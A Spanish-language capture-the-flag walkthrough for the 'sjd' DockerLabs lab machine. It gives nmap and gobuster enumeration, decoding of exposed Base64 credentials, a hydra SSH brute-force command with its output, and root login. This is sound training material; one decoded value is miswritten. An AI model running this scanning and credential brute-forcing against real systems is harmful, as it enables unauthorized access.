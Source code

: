 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# sjd DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip sjd.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh sjd.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 04:34 EST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e3:6b:e1:c3:e0:14:74:3e:df:a3:f1:d8:64:69:80:50 (ECDSA)
|_  256 17:ce:1a:bb:ef:6d:9e:9d:c2:41:41:0b:0f:82:32:0d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Reparaci\xC3\xB3n de Computadoras SJD
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.75 seconds
```

Vemos una pagina aparentemente normal, por lo que realizaremos un poco de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP> -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/descargas.html       (Status: 200) [Size: 4468]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 6968]
/index1.html          (Status: 200) [Size: 10703]
/pass.txt             (Status: 200) [Size: 42]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un archivo bastante interesante llamado `/pass.txt` y si entramos en el veremos lo siguiente:

```
sjd c2pkCg==
admin YWRtaW4K
root MTk3MQo=
```

Vemos que pueden ser `3` posibles usuarios con sus contraseñas codificadas en `Base64` por lo que haremos lo siguiente:

```
sjd ajd
admin admin
root 1971
```

Asi se veria de forma decodificada.

Por lo que vamos a realizar `fuerza bruta` con la herramienta `hydra`.

## Hydra

> users.txt

```
sjd
admin
root
```

> pass.txt

```
sjd
admin
1971
```

Ahora con `hydra` haremos lo siguiente:

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 05:16:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: sjd   password: sjd
[22][ssh] host: 172.17.0.2   login: root   password: 1971
[22][ssh] host: 172.17.0.2   login: admin   password: admin
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-27 05:16:30
```

Vemos que los `3` usuarios funcionan, pero el que mas nos interesa es el de `root`, por lo que nos conectaremos de la siguiente forma:

## SSH

```shell
ssh root@<IP>
```

Metemos como contraseña `1971` y veremos que estamos dentro como el usuario `root`.

Info:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:VICRoK2N/Zw01oNp8yqG9D8m0AwQbBFQLtb/DY5APT0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
root@d70dc147f847:~# whoami
root
```

Por lo que ya habremos terminado la maquina.
